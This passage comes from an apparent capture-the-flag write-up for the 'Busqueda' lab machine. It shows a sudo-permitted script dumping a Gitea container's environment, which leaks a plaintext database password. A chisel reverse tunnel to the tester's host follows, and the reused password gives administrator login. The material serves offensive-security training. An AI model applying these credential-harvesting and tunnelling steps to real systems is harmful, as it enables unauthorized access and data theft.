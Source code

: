 {% code overflow="wrap" %}
```
svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect {{.Config}} 960873171e2e
{960873171e2e   false false false map[22/tcp:{} 3000/tcp:{}] false false false [USER_UID=115 USER_GID=121 GITEA__database__DB_TYPE=mysql GITEA__database__HOST=db:3306 GITEA__database__NAME=gitea GITEA__database__USER=gitea GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin USER=git GITEA_CUSTOM=/data/gitea] [/bin/s6-svscan /etc/s6] <nil> false gitea/gitea:latest map[/data:{} /etc/localtime:{} /etc/timezone:{}]  [/usr/bin/entrypoint] false  [] map[com.docker.compose.config-hash:e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515 com.docker.compose.container-number:1 com.docker.compose.oneoff:False com.docker.compose.project:docker com.docker.compose.project.config_files:docker-compose.yml com.docker.compose.project.working_dir:/root/scripts/docker com.docker.compose.service:server com.docker.compose.version:1.29.2 maintainer:maintainers@gitea.io org.opencontainers.image.created:2022-11-24T13:22:00Z org.opencontainers.image.revision:9bccc60cf51f3b4070f5506b042a3d9a1442c73d org.opencontainers.image.source:https://github.com/go-gitea/gitea.git org.opencontainers.image.url:https://github.com/go-gitea/gitea]  <nil> []}
```
{% endcode %}

With this, we can try to access the Gitea instance at port 3000 via port forwarding.

### Gitea --> Root shell

We can port foward via `chisel`.

```bash
# on Busqueda
./chisel client 10.10.16.41:1080 R:3000:127.0.0.1:3000
# on kali
chisel server -p 1080 --reverse
```

Then we can access http://localhost:3000 to view Gitea:

<figure><img src="../../.gitbook/assets/image (62) (5).png" alt=""><figcaption></figcaption></figure>

Using the same MySQL password of `yuiu1hoiu4i5ho1uh`, we can login as `administrator`. We can see some repos:

<figure><img src="../../.gitbook/assets/image (59) (1) (2).png" alt=""><figcaption></figcaption></figure>
